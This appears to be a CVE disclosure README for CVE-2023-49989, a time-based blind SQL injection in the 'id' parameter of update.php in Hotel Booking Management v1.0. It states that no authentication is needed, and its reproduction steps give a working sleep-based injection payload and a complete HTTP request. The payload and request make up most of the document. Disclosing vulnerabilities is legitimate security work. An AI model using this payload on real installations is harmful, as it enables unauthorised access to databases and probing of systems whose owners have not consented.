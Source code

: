 # CVE-2023-49989
# Hotel Booking Management v1.0 - SQL Injection Vulnerability in the "id" parameter at update.php

**Description**: Hotel Booking Management v1.0 was discovered to contain a SQL injection vulnerability via the id parameter at update.php.  
  
**Vulnerable Product Version**: Hotel Booking Management v1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 28/11/2023  
**Confirmed on**: 19/12/2023  
**CVE**: CVE-2023-49989     
**Tested on**: Windows  
### Steps to reproduce:  
To exploit the vulnerability, an attacker only needs to send the SQL injection payload to update.php through the vulnerable 'id' parameter. No authentication is required. http://{{IP}}/HotelBookingManagement-main/update.php?id=1%20and%20(select*from(select(sleep(20)))a)--%20
### Request:  
```
GET /HotelBookingManagement-main/update.php?id=1%20and%20(select*from(select(sleep(5)))a)--%20 HTTP/1.1
Host: 192.168.68.148
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
```
Discoverer(s)/Credits:  
Geraldo Alcântara
